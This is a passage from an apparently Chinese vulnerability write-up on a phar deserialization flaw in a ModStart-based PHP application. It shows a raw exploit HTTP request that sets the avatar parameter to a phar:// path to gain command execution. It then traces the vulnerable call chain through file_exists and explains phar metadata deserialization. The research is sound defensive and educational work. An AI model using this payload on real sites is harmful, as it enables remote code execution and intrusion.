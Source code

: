 ```php
Accept-Language: zh-CN,zh;q=0.9
Cookie: cb_lang=zh-cn; PHPSESSID=b9b3b6655310f81aa0329bfd23522581; uuid=1; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiIxZDlmMjExMGZlOTgzM2U1MTQ4MmQyZjdkMTFmZjFlNiIsImlzcyI6ImxvY2FsaG9zdDo0NTYwMCIsImF1ZCI6ImxvY2FsaG9zdDo0NTYwMCIsImlhdCI6MTY5NDgyODg4MCwibmJmIjoxNjk0ODI4ODgwLCJleHAiOjE2OTc0MjA4ODAsImp0aSI6eyJpZCI6MSwidHlwZSI6ImFkbWluIn19.y5r2KvC8qH8eOhSYzK07JKHvRFcUDbFgCpdFuJTa1m4; expires_time=1697420880; ssid=eyJpdiI6ImZSdFV1aHNPR2JqdkhEZEpWN1IwUHc9PSIsInZhbHVlIjoiNG04VmdheFVoNFl0VDhUWkNScjY2YnRPY0pvRWZnYlJoU0dyb3ZxVlZHRVwvRnl6S2FtYUJmSVpUaDJZXC95OCsrU1hURjVZMzlKalphTjBMS2kyZG5CQT09IiwibWFjIjoiYTYyMWI3MTE2NTBmODY0ZmFhMmVjMDg0OWVhMWQxODQzNTVlYWM3NTgzNDhmOTM2NjEyMTU0M2NjNjM2NDg2YyJ9
Connection: close

type=&avatar=phar://./data/file/2023/09/22/28396_a9tq_5362.jpg
```

请求后可以执行我们想要的命令。

![document_image_rId24.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-75f50d33e50760f7b389104f1a1dd8e5e5c2e886.png)

### 漏洞审计

调用链：

```php
Member/Web/Controller/MemberProfileController.php avatar 54行
    Member/Api/Controller/MemberProfileController.php avatar 83行
    vendor/modstart/modstart/src/Core/Util/FileUtil.php savePathToLocalTemp 606行
        vendor/modstart/modstart/src/Core/Util/FileUtil.php file_exists 608行
```

从路由文件`Member/Api/routes.php`中可以找到路由`/member_profile/avatar`对应的`MemberProfileController.php`中的`avatar`函数。

![document_image_rId26.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-e0dfe7ea1ba03e0daeff2b64176f40fc2bda6306.png)

跟进后来到`Member/Api/Controller/MemberProfileController.php`的`avatar`函数中进行处理。通过改变传入`type`参数的值来进入到`savePathToLocalTemp`函数中去。

![document_image_rId27.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-076aa082c089c9ba8309fe1b25f5165e2fa6c353.png)

传入的路径会先通过`file_exists`函数进行判断，这个函数可以触发phar协议，执行反序列化，造成命令执行。

![document_image_rId28.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-1d63d7aafd30b07543e2c3a646fcdeb49f582d72.png)

0x05 认识 Phar 元数据自动反序列化
======================

Phar （PHp ARchive） 文件是一种使用单一文件格式（类似于 JAR 文件在 Java 生态系统中的工作方式）分发 PHP 应用程序和库的方法。从结构上讲，它们只是存档（带有可选的 gzip 压缩或基于 zip 的 tar 文件）。

> 安全研究员Sam Thomas分享了议题 [It’s a PHP unserialization vulnerability Jim, but not as we know it](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf)

实际上在PHP 8.0之前，当使用Phar流包装器时，它会自动尝试反序列化Phar元数据。即在对Phar文件进行任何文件操作时会将文件中的`meta-data`进行反序列化。

PHP8.0 后的变化
-----------
